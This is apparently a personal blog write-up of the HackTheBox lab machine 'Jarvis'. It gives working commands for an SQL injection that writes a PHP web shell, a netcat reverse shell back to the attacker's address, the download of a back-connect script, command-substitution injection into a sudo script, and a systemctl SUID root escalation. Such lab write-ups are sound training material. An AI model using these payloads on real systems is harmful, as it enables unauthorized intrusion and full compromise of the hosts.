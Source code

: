 ```yaml
---
layout:     post
title:      "HackTheBox: Jarvis"
date:       2019-11-10 00:00:00
author:     J
summary:    I love you 3000
categories: HackTheBox
thumbnail:  cube
tags:
 - OSCP
 - HackTheBox
 - Linux
---
```




Jarvis was a really satisfying box to root, in the sense that it's not too CTF-ish and had an initial foothold method that allowed me to learn something new. It is rated as a Medium difficulty box and I feel that it's slightly on the easier side of that spectrum.



Anyone who knows me personally would know that I dislike CTF style boxes where you have really annoying key pieces of the puzzle hidden in strange places like within an image(lol it's currently on a live box, I may make a post on that box if time permits).



![1568728913954](https://github.com/Dreamscent/Dreamscent.github.io/raw/master/images/Jarvis/1568728913954.png)





Now lets get down to business



---



## Enumeration & Initial Foothold



We start by enumerating the ports open on the box:



~~~bash
nmap -sV -sC -p- oN nmap 10.10.10.143
~~~



~~~bash
# Nmap 7.70 scan initiated Wed Jul  3 07:52:10 2019 as: nmap -sV -sC -p- -oN nmap 10.10.10.143
Nmap scan report for jarvis (10.10.10.143)
Host is up (0.55s latency).
Not shown: 65530 closed ports
PORT      STATE    SERVICE VERSION
22/tcp    open     ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey: 
|   2048 03:f3:4e:22:36:3e:3b:81:30:79:ed:49:67:65:16:67 (RSA)
|   256 25:d8:08:a8:4d:6d:e8:d2:f8:43:4a:2c:20:c8:5a:f6 (ECDSA)
|_  256 77:d4:ae:1f:b0:be:15:1f:f8:cd:c8:15:3a:c3:69:e1 (ED25519)
80/tcp    open     http    Apache httpd 2.4.25 ((Debian))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Stark Hotel
5355/tcp  filtered llmnr
31722/tcp filtered unknown
64999/tcp open     http    Apache httpd 2.4.25 ((Debian))
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Jul  3 08:38:07 2019 -- 1 IP address (1 host up) scanned in 2757.65 seconds

~~~





Typically when port 80 is open, it is the first thing I explore after searching through the software versions on the internet for known vulnerabilities.



Running `gobuster` returns a `phpmyadmin` login page, but for this case it's not required for entry so I have omitted that.



Crawling through the website, we notice that the `room.php` page takes an input parameter `cod` and uses it to render the room type. Injecting a `'` and appending it to the end breaks the page. Hmm..




![1568723719909](https://github.com/Dreamscent/Dreamscent.github.io/raw/master/images/Jarvis/1568723719909.png)



We can further test if the previous example was a false positive using the `order by` statement. Appending a `order by 1` returns the page as per normal. We might have an SQL injection vulnerability here!



![1568723834604](https://github.com/Dreamscent/Dreamscent.github.io/raw/master/images/Jarvis/1568723834604.png)



We can increment the number we `order by` to test how many columns are returned by the SQL database. When this number reaches 8, the page gets broken again. We now know that there are 7 columns returned from the SQL query.



![1568723867745](https://github.com/Dreamscent/Dreamscent.github.io/raw/master/images/Jarvis/1568723867745.png)



So we know that the web application runs `php`, we have an SQL injection vulnerability, and that it selects 7 columns of data from whatever table it's querying.



Here we can write a file echoing(don't forget url encoding!) a simple php 1 liner RCE code into a file on the server. `/var/www/html` is one of the most common directories hosting web pages so we can try that first. We can use a `union select` command to add additional data to be returned by the SQL query. If the number of columns matches the actual number that's returned by the query, an additional row will be appended to the results(I'll probably have to make another post on explaining this). So, we select 6(+1 payload to make 7) to create our query:



~~~
http://10.10.10.143/room.php?cod=1+union+select+1,2,3,4,5,6,'<%3fphp+system($_GET["cmd"])%3b+%3f>'+into+outfile+'/var/www/html/cmd.php'+%23
~~~



![1568723959570](https://github.com/Dreamscent/Dreamscent.github.io/raw/master/images/Jarvis/1568723959570.png)



After that, we can try accessing our new file at `10.10.10.143/cmd.php` and note that it did create something:





![1568728086337](https://github.com/Dreamscent/Dreamscent.github.io/raw/master/images/Jarvis/1568728086337.png)





Now that we have the php file on the server, we can execute our netcat reverse shell back to our listener:

~~~bash
# create listener
nc -lvp 443

# call our reverse shell(please use a different terminal for this, don't do it in the listner)

curl -X GET "http://10.10.10.143/cmd.php?cmd=nc%2010.10.14.4%20443%20-e%20/bin/sh"
~~~



Of course you don't have to use `curl`, just entering the payload in the browser works just as well. 



In any case, we get a shell!

![1568724141929](https://github.com/Dreamscent/Dreamscent.github.io/raw/master/images/Jarvis/1568724141929.png)





---



## Privilege Escalation - User



We upgrade to a prettier shell, and run a `sudo -l` to check out sudo privileges



![1568724227472](https://github.com/Dreamscent/Dreamscent.github.io/raw/master/images/Jarvis/1568724227472.png)



An interesting command was found within this `simpler.py` file.



![1568724294794](https://github.com/Dreamscent/Dreamscent.github.io/raw/master/images/Jarvis/1568724294794.png)





As we can see, the file checks for bad characters. However, a key character `$` was missing. Using command substitution, we can still get it to execute scripts.



Here I go back to using the trusty  set of python pty shell scripts by infodox, which can be found [here][1]. As shown in the writeup on Writeup, these scripts allow us to spawn a reverse shell from the target to the host. The result allows for a fully interactive shell, inclusive of tab autocomplete, history, and such.



We first edit`tcp_pty_backconnect.py` with our IP address, and then host the file on our HTTP server using port of our choosing.



~~~bash
python -m SimpleHTTPServer 1234
~~~





![1568724965720](https://github.com/Dreamscent/Dreamscent.github.io/raw/master/images/Jarvis/1568724965720.png)





After which, we enter a world-writable directory where we can work out of;  `/tmp` is usually my favourite. Inside we can use `wget` to download our script



~~~bash
wget 10.10.16.53:1234/tcp_pty_backconnect.py
~~~



![1568725392837](https://github.com/Dreamscent/Dreamscent.github.io/raw/master/images/Jarvis/1568725392837.png)



We can then setup the listener to catch the reverse shell by binding it to the IP and port previously specified:

~~~bash
python tcp_pty_shell_handler.py -b 10.10.16.53:31337 
~~~



### Simpler.py



We run the script as the user `pepper`, and see the usage instructions. Here we know that `-p` will call the function we want to exploit.



![1568726080425](https://github.com/Dreamscent/Dreamscent.github.io/raw/master/images/Jarvis/1568726080425.png)



~~~bash
sudo -u pepper /var/www/Admin-Utilities/simpler.py  
# then
8.8.8.8 $(python /tmp/tcp_pty_backconnect.py)

~~~



On the listener we previously set up, we see that we got our user shell.



![1568726351083](https://github.com/Dreamscent/Dreamscent.github.io/raw/master/images/Jarvis/1568726351083.png)



---



## Privilege Escalation - Root



Doing the usual checks, we see that `systemctl` has an SUID bit set and will run as root.



![1568726493292](https://github.com/Dreamscent/Dreamscent.github.io/raw/master/images/Jarvis/1568726493292.png)



We check this very lovely website called [gtfobins][2] and see that `systemctl` can be used to elevate the user privileges if SUID bit or if `sudo` can be run on it as root.



Kudos to the creators of this box, whether intentional or not. There was one last hoop to jump through.



Following the steps in [gtfobins][2] did not escalate our shell to root.  Poo :(



However, if you think about it. What's the difference between the following? :

1. Have SUID bit set as root
2. Can SUDO as root with no password



Basically, the main difference is simply the lack of the `sudo -u root` or `sudo` prefix when running the binary or script.

So this basically means, we can try the methods described that were meant for the `sudo` section of the page, just removing the word `sudo` from the command(s).



Here, in plain text for your copy paste pleasure:

~~~bash
TF=$(mktemp)
echo /bin/sh >$TF
chmod +x $TF
SYSTEMD_EDITOR=$TF systemctl edit system.slice
~~~



And executing these gets us our root shell. From here we can go to the respective directories and get the flags required. :)



![1568727190405](https://github.com/Dreamscent/Dreamscent.github.io/raw/master/images/Jarvis/1568727190405.png)



Cya guys next time. I love you 3000!





[1]: https://github.com/infodox/python-pty-shells

[2]: https://gtfobins.github.io/gtfobins/systemctl/







